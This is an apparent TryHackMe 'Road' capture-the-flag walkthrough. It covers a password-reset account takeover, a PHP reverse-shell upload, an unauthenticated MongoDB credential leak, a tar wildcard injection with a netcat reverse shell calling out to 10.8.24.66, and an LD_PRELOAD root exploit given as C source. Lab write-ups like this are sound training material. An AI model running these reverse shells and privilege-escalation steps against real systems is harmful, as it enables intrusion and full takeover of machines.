---
---

# THM - Road

NMAP
```bash
sudo nmap 10.10.79.100 -A
```



- Directory scan:
```bash
gobuster dir -u http://10.10.79.100 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```



- Registered an account and logged in
<http://10.10.54.102/v2/admin/login.html>




- On the Profile page we can upload a file (but only admins can atm)



- But found an admin email:
**admin@sky.thm**

- The only other button that works is the ResetUser button



- But looks like we can only reset our own password

- Open Burp and see if we can intercept the traffic






- Change the email to **admin@sky.thm** and send




- Got a 200 response code OK




- Log in with admin@sky.thm




- If we now go to Profile and scroll to the bottom - we can upload a file




- I jumped straight in with a **php_reverse_shell.php** - and uploaded it  
  It didn't give an error but didn't say successful either

- Set up nc:
```bash
rlwrap -cAr nc -lvnp 4445

```
- Inspecting the current profile picture



and trying to use that path to get a shell back - Failed

- Inspecting the profile page's source - showed a different path, that's been commented out
**/v2/profileimages/**




- Using that path
<http://10.10.54.102/v2/profileimages/php_reverse_shell.php>

- Got a shell



- Upgrade shell:
```bash
# In reverse shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

#Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
export SHELL=bash
export TERM=xterm
stty cols 236 rows 59
alias ls='ls --color=auto'
reset
clear

#ENTER
#ENTER
```

- cat user flag

- Check what users are on the server:
```bash
getent passwd

```



```bash
ss -tulpn

```



- Tried connecting to mysql



- Connected to mongo with no credentials









- Got **webdeveloper : BahamasChapp123!@#**

- SSH with creds:
```bash
ssh webdeveloper@10.10.54.102

sudo -l

```



```bash
id

```



Tried sudo su as webdeveloper is in sudo group




sky_backup_utility is owned by root




```bash
strings /usr/bin/sky_backup_utility

```



```bash
tar -czvf /root/.backup/sky-backup.tar.gz /var/www/html/
```

We can see that this is a backup script ELF file. So it must run regularly.

It backs up all of the contents in /var/www/html/**\*** to /root/.backup/sky-backup.tar.gz

We can exploit the wildcard **\*** to priv esc

- On KALI - Create a raw netcat reverse shell:
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.24.66 lport=4444 R

```
- Copy the raw shell:
```bash
mkfifo /tmp/mzdqoeb; nc 10.8.24.66 4444 0</tmp/mzdqoeb | /bin/sh >/tmp/mzdqoeb 2>&1; rm /tmp/mzdqoeb

```
- Set up nc listener
```bash
rlwrap -cAr nc -lvnp 4444

```
- Go back to www-data shell
```bash
cd /var/www/html/

echo "mkfifo /tmp/mzdqoeb; nc 10.8.24.66 4444 0\</tmp/mzdqoeb \| /bin/sh \>/tmp/mzdqoeb 2\>&1; rm /tmp/mzdqoeb" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

tar cf archive.tar *

```

- Got a shell - but it's www-data - tried with webdeveloper as well but didn't get root



- Looking at sudo -l again




- **env_keep+=LD_PRELOAD** is set
- And we can run a binary as sudo (/usr/bin/sky_backup_utility)

<https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/>







- Exploit LD_PRELOAD:
  - On webdeveloper shell

```bash
cd /tmp
nano shell.c
```

```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD"); // Prevent recursion
    setgid(0);              // Set group ID to root
    setuid(0);              // Set user ID to root
    system("/bin/sh");      // Spawn a root shell
}
```



Save file

- Compile c file:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility #Because we can execute /usr/bin/sky_backup_utility as root
```

- Got root shell



```bash
cat root.txt

```